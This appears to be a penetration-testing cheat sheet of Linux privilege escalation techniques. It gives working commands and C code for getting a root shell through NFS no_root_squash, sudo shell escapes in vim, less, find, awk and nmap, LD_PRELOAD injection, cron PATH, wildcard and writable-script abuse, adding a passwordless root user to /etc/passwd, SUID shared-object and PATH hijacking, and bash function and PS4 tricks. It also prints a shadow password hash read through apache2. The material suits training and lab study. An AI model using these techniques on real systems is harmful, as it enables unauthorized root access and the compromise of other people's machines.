 ###################################
Linux Privilege Escalation Examples
###################################

NFS
===

NFS allows a host to share file system resources over a network. Access Control is based on the server's file system, and on the uid/gid provided by the connecting client.

Root squashing maps files owned by root (uid 0) to a different ID (e.g. anonymous or nobody). If the "no_root_squash" option is enabled, files owned by root will not get mapped. This means that as long as you access the NFS share as a root (uid 0) user, you can write to the host file system as root.

.. code-block:: none

    $ cat /etc/exports

    /tmp *(rw,sync,insecure,no_root_squash,no_subtree_check)

On your local machine, check that the NFS share is accessible:

.. code-block:: none

    # showmount -e 10.0.0.1
    Export list for 10.0.0.1:
    /tmp *

On your local machine, make a directory to mount the remote share, and then mount it:

.. code-block:: none

    # mkdir /tmp/mount
    # mount -o rw,vers=2 10.0.0.1:/tmp /tmp/mount
    # ls /tmp/mount
    backup.tar.gz  useless

Create an executable that calls /bin/bash with root level permissions in the mounted share and set the SUID bit:

.. code-block:: none

    int main() {
        setresuid(0,0,0);
        setresgid(0,0,0);
        system("/bin/bash");
    }

.. code-block:: none

    # gcc -o rootsh rootsh.c
    # cp rootsh /tmp/mount
    # chmod +s /tmp/mount/rootsh

Now, back on the remote host, execute the executable to spawn a root shell:

.. code-block:: none

    $ /tmp/rootsh
    #

Alternatively, on the remote host, copy the /bin/bash or /bin/sh binary to the NFS directory:

.. code-block:: none

    $ cp /bin/bash /tmp

On your local machine, after mounting the NFS share, create new copies of the files (or chown them to root) and set the SUID/SGUID bits:

.. code-block:: none

    # cp bash rootbash
    # chmod +s rootbash

    OR

    # chown root:root bash
    # chmod +s bash

Now, back on the remote host, run the file. For bash / sh, use the -p command line option to preserve the SUID/SGID (otherwise shell will simply spawn as your own user).

.. code-block:: none

    $ /tmp/rootbash -p
    #

    OR

    $ /tmp/bash -p
    #

Sudo
====

Shell Escape Sequences
----------------------

.. code-block:: none

    $ sudo -l
    Matching Defaults entries for user on this host:
        env_reset, env_keep+=LD_PRELOAD

    User user may run the following commands on this host:
        (root) NOPASSWD: /usr/sbin/iftop
        (root) NOPASSWD: /usr/bin/find
        (root) NOPASSWD: /usr/bin/nano
        (root) NOPASSWD: /usr/bin/vim
        (root) NOPASSWD: /usr/bin/man
        (root) NOPASSWD: /usr/bin/awk
        (root) NOPASSWD: /usr/bin/less
        (root) NOPASSWD: /usr/bin/ftp
        (root) NOPASSWD: /usr/bin/nmap
        (root) NOPASSWD: /usr/sbin/apache2
        (root) NOPASSWD: /bin/more

vim / vi
^^^^^^^^

.. code-block:: none

    $ sudo vim --cmd sh
    #

    $ sudo vi --cmd sh
    #

.. code-block:: none

    $ sudo vim -c sh
    #

    $ sudo vi -c sh
    #

.. code-block:: none

    $ sudo vim
    :!sh
    #

    $ sudo vi
    :!sh
    #

man
^^^

.. code-block:: none

    $ sudo man ls
    !sh
    #

less
^^^^

.. code-block:: none

    $ sudo less /path/to/large/file
    !sh
    #

more
^^^^

.. code-block:: none

    $ sudo more /path/to/large/file
    !sh
    #

iftop
^^^^^

.. code-block:: none

    $ sudo iftop
    !sh
    #

gdb
^^^

.. code-block:: none

    $ sudo gdb
    (gdb) shell sh
    #

ftp
^^^

.. code-block:: none

    $ ftp
    ftp> !
    #

find
^^^^

.. code-block:: none

    $ sudo find /bin -name ls -exec /bin/sh \;
    #

awk
^^^

.. code-block:: none

    $ sudo awk 'BEGIN {system("/bin/sh")}'
    #

nmap
^^^^

.. code-block:: none

    $ sudo nmap --interactive
    !sh
    #

.. code-block:: none

    $ echo "os.execute('/bin/sh')" > shell.nse
    $ sudo nmap --script=shell.nse
    #

nano
^^^^

.. code-block:: none

    $ sudo nano -s /bin/sh
    sh
    ^T

Abusing Intended Functionality
------------------------------

.. code-block:: none

    $ sudo apache2 -f /etc/shadow
    Syntax error on line 1 of /etc/shadow:
    Invalid command 'root:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:17298:0:99999:7:::', perhaps misspelled or defined by a module not included in the server configuration

LD_PRELOAD / LD_LIBRARY_PATH
----------------------------

Environment variables:

* LD_LIBRARY_PATH - A list of directories in which to search for RLF libraries at execution time.
* LD_PRELOAD - A list of additional, user-specified, ELF shared objects to be loaded before all others.

Sudo has the ability to preserve certain environment variables:

.. code-block:: none

    $ sudo -l
    Matching Defaults entries for user on this host:
    env_reset, env_keep+=LD_PRELOAD

Compile a shared object (.so) file:

.. code-block:: none

    #include <stdio.h>
    #include <sys/types.h>
    #include <stdlib.h>

    void _init() {
        unsetenv("LD_PRELOAD");
        setresuid(0,0,0);
        setresgid(0,0,0);
        system("/bin/bash");
    }

.. code-block:: none

    $ gcc -fPIC -shared -nostartfiles -o preload.so preload.c

Set the environment variable as part of the sudo command. The full path to the .so file needs to be used. Your user must be able to run the command via sudo.

.. code-block:: none

    $ sudo LD_PRELOAD=/full/path/tp/preload.so apache2
    #

Cron Jobs
=========

Path
----

If PATH variable defined inside a crontab, and one of the paths is writable, and the cron job doesn't refer to an absolute path, we can exploit.

.. code-block:: none

    $ cat /etc/crontab
    SHELL=/bin/sh
    PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

    * * * * * root overwrite.sh

In the example above, /home/user is in the PATH and our user can write to it.

Create a /home/user/overwrite.sh script which makes a SUID/SGID bit version of bash:

.. code-block:: none

    #!/bin/bash
    cp /bin/bash /tmp/rootbash
    chmod +s /tmp/rootbash

Make the script executable:

.. code-block:: none

    $ chmod +x /home/user/overwrite.sh

Now wait for the cron job to execute. When it does, execute the /tmp/rootbash binary and get a root shell. Remember to use the -p command line option to preserve the SUID/SGID:

.. code-block:: none

    $ /tmp/rootbash -p
    #

Wildcards
---------

If the cron job script contains bash wildcards that reference files, and we can create files in the relevant directory, it may be possible to create files with filenames that can be used as command line flags.

.. code-block:: none

    $ cat /etc/crontab
    ...
    * * * * * root /usr/local/bin/compress.sh

.. code-block:: none

    $ cat /usr/local/bin/compress.sh
    #!/bin/sh
    cd /home/user
    tar czf /tmp/backup.tar.gz *

The tar executable has a checkpoint feature which displays progress messages every specific number of records. It also allows users to define an action that is executed during the checkpoint.

Create a script (runme.sh) which makes a SUID/SGID bit version of bash:

.. code-block:: none

    #!/bin/bash
    cp /bin/bash /tmp/rootbash
    chmod +s /tmp/rootbash

Make the script executable:

.. code-block:: none

    $ chmod +x runme.sh

Create two files in the directory that the tar command is run in, with the filename set to the full command line options:

.. code-block:: none

    touch /home/user/--checkpoint=1
    touch /home/user/--checkpoint-action=exec=sh\ runme.sh

Now wait for the cron job to execute. When it does, execute the /tmp/rootbash binary and get a root shell. Remember to use the -p command line option to preserve the SUID/SGID:

.. code-block:: none

    $ /tmp/rootbash -p
    #

File Overwrite
--------------

If a cron job script is writable, we can modify it and run commands as root:

.. code-block:: none

    $ cat /etc/crontab
    ...
    * * * * * root overwrite.sh

.. code-block:: none

    $ locate overwrite.sh
    /usr/local/bin/overwrite.sh
    $ ls -l /usr/local/bin/overwrite.sh
    -rwxr--rw- 1 root staff 40 May 13  2017 /usr/local/bin/overwrite.sh

The /usr/local/bin/overwrite.sh file is world-writable.

Overwrite the /usr/local/bin/overwrite.sh script with one that makes a SUID/SGID bit version of bash:

.. code-block:: none

    #!/bin/bash
    cp /bin/bash /tmp/rootbash
    chmod +s /tmp/rootbash

Now wait for the cron job to execute. When it does, execute the /tmp/rootbash binary and get a root shell. Remember to use the -p command line option to preserve the SUID/SGID:

.. code-block:: none

    $ /tmp/rootbash -p
    #

File Permissions
================

Writable /etc/passwd
--------------------

On some \*nix distributions, if /etc/passwd is writable, we can add a new root user with no password, since the only thing that matters is the uid being 0:

.. code-block:: none

    $ echo newroot::0:0:root:/root:/bin/bash >> /etc/passwd

Now use su to switch user:

.. code-block:: none

    $ su newroot
    #

SUID Binaries
-------------

Shared Object Injection
^^^^^^^^^^^^^^^^^^^^^^^

Shared Objects (.so) are the \*nix equivalent of Windows DLLs. If a program references a shared object that we can write to (even if it doesn't exist) we can run commands with the user context of the application.

Find SUID/SGID binaries:

.. code-block:: none

    $ find / -type f -a \( -perm -u+s -o -perm -u+s \) -exec ls -l {} \; 2> /dev/null
    -rwxr-sr-x 1 root shadow 19528 Feb 15  2011 /usr/bin/expiry
    -rwxr-sr-x 1 root ssh 108600 Apr  2  2014 /usr/bin/ssh-agent
    -rwsr-xr-x 1 root root 37552 Feb 15  2011 /usr/bin/chsh
    -rwsr-xr-x 2 root root 168136 Jan  5  2016 /usr/bin/sudo
    -rwxr-sr-x 1 root tty 11000 Jun 17  2010 /usr/bin/bsd-write
    -rwxr-sr-x 1 root crontab 35040 Dec 18  2010 /usr/bin/crontab
    -rwsr-xr-x 1 root root 32808 Feb 15  2011 /usr/bin/newgrp
    -rwsr-xr-x 2 root root 168136 Jan  5  2016 /usr/bin/sudoedit
    -rwxr-sr-x 1 root shadow 56976 Feb 15  2011 /usr/bin/chage
    -rwsr-xr-x 1 root root 43280 Feb 15  2011 /usr/bin/passwd
    -rwsr-xr-x 1 root root 60208 Feb 15  2011 /usr/bin/gpasswd
    -rwsr-xr-x 1 root root 39856 Feb 15  2011 /usr/bin/chfn
    -rwxr-sr-x 1 root tty 12000 Jan 25  2011 /usr/bin/wall
    -rwsr-sr-x 1 root staff 9861 May 14  2017 /usr/local/bin/suid-so
    -rwsr-sr-x 1 root staff 6883 May 14  2017 /usr/local/bin/suid-env
    -rwsr-sr-x 1 root staff 6899 May 14  2017 /usr/local/bin/suid-env2
    -rwsr-xr-x 1 root root 963691 May 13  2017 /usr/sbin/exim-4.84-3
    -rwsr-xr-x 1 root root 6776 Dec 19  2010 /usr/lib/eject/dmcrypt-get-device
    -rwsr-xr-x 1 root root 212128 Apr  2  2014 /usr/lib/openssh/ssh-keysign
    -rwsr-xr-x 1 root root 10592 Feb 15  2016 /usr/lib/pt_chown
    -rwsr-xr-x 1 root root 36640 Oct 14  2010 /bin/ping6
    -rwsr-xr-x 1 root root 34248 Oct 14  2010 /bin/ping
    -rwsr-xr-x 1 root root 78616 Jan 25  2011 /bin/mount
    -rwsr-xr-x 1 root root 34024 Feb 15  2011 /bin/su
    -rwsr-xr-x 1 root root 53648 Jan 25  2011 /bin/umount
    -rwsr-sr-x 1 root root 16664 Feb  9 13:43 /tmp/rootsh
    -rwxr-sr-x 1 root shadow 31864 Oct 17  2011 /sbin/unix_chkpwd
    -rwsr-xr-x 1 root root 94992 Dec 13  2014 /sbin/mount.nfs

Use strace to find references to shared objects:

.. code-block:: none

    $ strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"
    access("/etc/suid-debug", F_OK)         = -1 ENOENT (No such file or directory)
    access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
    access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
    open("/etc/ld.so.cache", O_RDONLY)      = 3
    access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
    open("/lib/libdl.so.2", O_RDONLY)       = 3
    access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
    open("/usr/lib/libstdc++.so.6", O_RDONLY) = 3
    access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
    open("/lib/libm.so.6", O_RDONLY)        = 3
    access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
    open("/lib/libgcc_s.so.1", O_RDONLY)    = 3
    access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
    open("/lib/libc.so.6", O_RDONLY)        = 3
    open("/home/user/.config/libcalc.so", O_RDONLY) = -1 ENOENT (No such file or directory)

The shared object /home/user/.config/libcalc.so is referenced, but it doesn't exist. Luckily it is in a writable directory.

Create a C program (libcalc.c) and compile it to a shared object:

.. code-block:: none

    #include <stdio.h>
    #include <stdlib.h>

    static void inject() __attribute__((constructor));
    void inject() {
        setresuid(0,0,0);
        setresgid(0,0,0);
        system("/bin/bash");
    }

.. code-block:: none

    $ gcc -shared -fPIC -o libcalc.so libcalc.c

Move the libcalc.so shared object to the path referenced by the SUID binary:

.. code-block:: none

    $ mkdir -p /home/user/.config
    $ cp libcalc.so /home/user/.config/libcalc.so

Now run the SUID binary, it should give you a root shell immediately:

.. code-block:: none

    $ suid-so
    Calculating something, please wait...
    root@debian:~# 

Symlink
^^^^^^^

TODO

Environment Variables - Relative Paths
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Find SUID/SGID binaries:

.. code-block:: none

    $ find / -type f -a \( -perm -u+s -o -perm -u+s \) -exec ls -l {} \; 2> /dev/null
    -rwxr-sr-x 1 root shadow 19528 Feb 15  2011 /usr/bin/expiry
    -rwxr-sr-x 1 root ssh 108600 Apr  2  2014 /usr/bin/ssh-agent
    -rwsr-xr-x 1 root root 37552 Feb 15  2011 /usr/bin/chsh
    -rwsr-xr-x 2 root root 168136 Jan  5  2016 /usr/bin/sudo
    -rwxr-sr-x 1 root tty 11000 Jun 17  2010 /usr/bin/bsd-write
    -rwxr-sr-x 1 root crontab 35040 Dec 18  2010 /usr/bin/crontab
    -rwsr-xr-x 1 root root 32808 Feb 15  2011 /usr/bin/newgrp
    -rwsr-xr-x 2 root root 168136 Jan  5  2016 /usr/bin/sudoedit
    -rwxr-sr-x 1 root shadow 56976 Feb 15  2011 /usr/bin/chage
    -rwsr-xr-x 1 root root 43280 Feb 15  2011 /usr/bin/passwd
    -rwsr-xr-x 1 root root 60208 Feb 15  2011 /usr/bin/gpasswd
    -rwsr-xr-x 1 root root 39856 Feb 15  2011 /usr/bin/chfn
    -rwxr-sr-x 1 root tty 12000 Jan 25  2011 /usr/bin/wall
    -rwsr-sr-x 1 root staff 9861 May 14  2017 /usr/local/bin/suid-so
    -rwsr-sr-x 1 root staff 6883 May 14  2017 /usr/local/bin/suid-env
    -rwsr-sr-x 1 root staff 6899 May 14  2017 /usr/local/bin/suid-env2
    -rwsr-xr-x 1 root root 963691 May 13  2017 /usr/sbin/exim-4.84-3
    -rwsr-xr-x 1 root root 6776 Dec 19  2010 /usr/lib/eject/dmcrypt-get-device
    -rwsr-xr-x 1 root root 212128 Apr  2  2014 /usr/lib/openssh/ssh-keysign
    -rwsr-xr-x 1 root root 10592 Feb 15  2016 /usr/lib/pt_chown
    -rwsr-xr-x 1 root root 36640 Oct 14  2010 /bin/ping6
    -rwsr-xr-x 1 root root 34248 Oct 14  2010 /bin/ping
    -rwsr-xr-x 1 root root 78616 Jan 25  2011 /bin/mount
    -rwsr-xr-x 1 root root 34024 Feb 15  2011 /bin/su
    -rwsr-xr-x 1 root root 53648 Jan 25  2011 /bin/umount
    -rwxr-sr-x 1 root shadow 31864 Oct 17  2011 /sbin/unix_chkpwd
    -rwsr-xr-x 1 root root 94992 Dec 13  2014 /sbin/mount.nfs

Use strings to find any strings in the executable, especially system commands:

.. code-block:: none

    $ strings /usr/local/bin/suid-env
    /lib64/ld-linux-x86-64.so.2
    5q;Xq
    __gmon_start__
    libc.so.6
    setresgid
    setresuid
    system
    __libc_start_main
    GLIBC_2.2.5
    fff.
    fffff.
    l$ L
    t$(L
    |$0H
    service apache2 start

The "service" command doesn't have an absolute path. When it is called, \*nix will try to find it by traversing the PATH environment variable. We can modify the PATH variable and create a malicious version of the service binary which will spawn a root shell when it is run.

First create a C program (service.c):

.. code-block:: none

    int main() {
        setresuid(0,0,0);
        setresgid(0,0,0);
        system("/bin/bash");
    }

Compile it to our malicious binary:

.. code-block:: none

    $ gcc -o /tmp/service service.c

Add /tmp to the start of the PATH environment variable and export it:

.. code-block:: none

    $ export PATH=/tmp:$PATH

Now run the original SUID/SGID binary. A root shell should spawn:

.. code-block:: none

    $ /usr/local/bin/suid-env
    #

Environment Variables - Absolute Paths
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Find SUID/SGID binaries:

.. code-block:: none

    $ find / -type f -a \( -perm -u+s -o -perm -u+s \) -exec ls -l {} \; 2> /dev/null
    -rwxr-sr-x 1 root shadow 19528 Feb 15  2011 /usr/bin/expiry
    -rwxr-sr-x 1 root ssh 108600 Apr  2  2014 /usr/bin/ssh-agent
    -rwsr-xr-x 1 root root 37552 Feb 15  2011 /usr/bin/chsh
    -rwsr-xr-x 2 root root 168136 Jan  5  2016 /usr/bin/sudo
    -rwxr-sr-x 1 root tty 11000 Jun 17  2010 /usr/bin/bsd-write
    -rwxr-sr-x 1 root crontab 35040 Dec 18  2010 /usr/bin/crontab
    -rwsr-xr-x 1 root root 32808 Feb 15  2011 /usr/bin/newgrp
    -rwsr-xr-x 2 root root 168136 Jan  5  2016 /usr/bin/sudoedit
    -rwxr-sr-x 1 root shadow 56976 Feb 15  2011 /usr/bin/chage
    -rwsr-xr-x 1 root root 43280 Feb 15  2011 /usr/bin/passwd
    -rwsr-xr-x 1 root root 60208 Feb 15  2011 /usr/bin/gpasswd
    -rwsr-xr-x 1 root root 39856 Feb 15  2011 /usr/bin/chfn
    -rwxr-sr-x 1 root tty 12000 Jan 25  2011 /usr/bin/wall
    -rwsr-sr-x 1 root staff 9861 May 14  2017 /usr/local/bin/suid-so
    -rwsr-sr-x 1 root staff 6883 May 14  2017 /usr/local/bin/suid-env
    -rwsr-sr-x 1 root staff 6899 May 14  2017 /usr/local/bin/suid-env2
    -rwsr-xr-x 1 root root 963691 May 13  2017 /usr/sbin/exim-4.84-3
    -rwsr-xr-x 1 root root 6776 Dec 19  2010 /usr/lib/eject/dmcrypt-get-device
    -rwsr-xr-x 1 root root 212128 Apr  2  2014 /usr/lib/openssh/ssh-keysign
    -rwsr-xr-x 1 root root 10592 Feb 15  2016 /usr/lib/pt_chown
    -rwsr-xr-x 1 root root 36640 Oct 14  2010 /bin/ping6
    -rwsr-xr-x 1 root root 34248 Oct 14  2010 /bin/ping
    -rwsr-xr-x 1 root root 78616 Jan 25  2011 /bin/mount
    -rwsr-xr-x 1 root root 34024 Feb 15  2011 /bin/su
    -rwsr-xr-x 1 root root 53648 Jan 25  2011 /bin/umount
    -rwxr-sr-x 1 root shadow 31864 Oct 17  2011 /sbin/unix_chkpwd
    -rwsr-xr-x 1 root root 94992 Dec 13  2014 /sbin/mount.nfs

Use strings to find any strings in the executable, especially system commands:

.. code-block:: none

    $ strings /usr/local/bin/suid-env2
    /lib64/ld-linux-x86-64.so.2
    __gmon_start__
    libc.so.6
    setresgid
    setresuid
    system
    __libc_start_main
    GLIBC_2.2.5
    fff.
    fffff.
    l$ L
    t$(L
    |$0H
    /usr/sbin/service apache2 start

The /usr/sbin/service command seems to be interesting, however it has an absolute path and cannot be edited.

Some versions of Bash (<4.2-048) and Dash let you define functions with the same name as an absolute path. These then take precedent above the actual executable themselves.

Define a bash function "/usr/sbin/service" that creates an SUID/SGID version of bash:

.. code-block:: none

    $ function /usr/sbin/service() { cp /bin/bash /tmp/rootbash && chmod +s /tmp/rootbash && /tmp/rootbash -p;}

Export the new function:

.. code-block:: none

    $ export -f /usr/sbin/service

Now run the original SUID/SGID binary. A root shell should spawn:

.. code-block:: none

    $ /usr/local/bin/suid-env2
    #

Bash also supports a script debugging mode, and uses the PS4 environment variable to define a prompt for the debugging mode.

We can get an instance root shell:

.. code-block:: none

    env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash && chown root:root /tmp/rootbash && chmod +s /tmp/rootbash)' /bin/sh -c '/usr/local/bin/suid-env2; set +x; /tmp/rootbash -p'

Startup Scripts
---------------

Startup scripts are stored under /etc/init.d, and are usually run with elevated privileges.

Find world-writable startup scripts:

.. code-block:: none

    $ find /etc/init.d -perm -o+w -type f -exec ls -l {} \; 2>/dev/null
    -rwxr-xrwx 1 root root 801 May 14  2017 /etc/init.d/rc.local

Edit the script and add some code that creates an SUID/SGID bash shell:

.. code-block:: none

    cp /bin/bash /tmp/rootbash
    chown root:root /tmp/rootbash
    chmod +s /tmp/rootbash

Now restart the remote host, and once the host is restarted, spawn a root shell:

.. code-block:: none

    $ /tmp/rootbash -p
    #

Configuration Files
-------------------

Configuration files are usually stored in /etc.

Check writable files to see if we can introduce misconfigurations (e.g. if /etc/exports is writable, we can define NFS shares with root squashing turned off).
